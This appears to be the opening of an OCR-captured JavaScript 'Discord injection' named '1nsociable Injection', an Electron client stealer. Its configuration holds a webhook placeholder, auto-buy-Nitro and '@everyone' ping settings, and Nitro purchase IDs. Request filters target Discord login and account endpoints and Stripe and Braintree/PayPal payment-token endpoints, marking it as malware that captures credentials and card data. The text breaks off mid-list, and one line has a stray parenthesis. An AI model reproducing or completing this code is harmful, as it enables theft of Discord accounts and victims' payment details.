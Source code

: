 const args = process.argv;
const fs = require('fs');
const path = require('path');
const https = require('https');
const querystring = require('querystring');
const { BrowserWindow, session } = require('electron');

const config = {
  webhook: '%WEBHOOK%', 
  webhook_protector_key: '%WEBHOOK_KEY%', 
  auto_buy_nitro: false, 
  ping_on_run: true, 
  ping_val: '@everyone',
  embed_name: '1nsociable Injection', 
  embed_icon: 'file:///C:/Users/Serto/Downloads/a_82d65ad10e61066ee5487d4e83fee1fb.ico'), 
  embed_color: 2895667, 
  injection_url: 'https://discord.gg/zG53DvvHHb', 
  /**
   
   **/
  api: 'https://discord.com/api/v9/users/@me',
  nitro: {
    boost: {
      year: {
        id: '521847234246082599',
        sku: '511651885459963904',
        price: '9999',
      },
      month: {
        id: '521847234246082599',
        sku: '511651880837840896',
        price: '999',
      },
    },
    classic: {
      month: {
        id: '521846918637420545',
        sku: '511651871736201216',
        price: '499',
      },
    },
  },
  filter: {
    urls: [
      'https://discord.com/api/v*/users/@me',
      'https://discordapp.com/api/v*/users/@me',
      'https://*.discord.com/api/v*/users/@me',
      'https://discordapp.com/api/v*/auth/login',
      'https://discord.com/api/v*/auth/login',
      'https://*.discord.com/api/v*/auth/login',
      'https://api.braintreegateway.com/merchants/49pp2rp4phym7387/client_api/v*/payment_methods/paypal_accounts',
      'https://api.stripe.com/v*/tokens',
      'https://api.stripe.com/v*/setup_intents/*/confirm',
      'https://api.stripe.com/v*/payment_intents/*/confirm',
    ],
  },
  filter2: {
    urls: [
      'https://status.discord.com/api/v*/scheduled-maintenances/upcoming.json',
      'https://*.discord.com/api/v*/applications/detectable',
      'https://discord.com/api/v*/applications/detectable',
      'https://*.discord.com/api/v*/users/@me/library',
      'https://discord.com/api/v*/users/@me/library',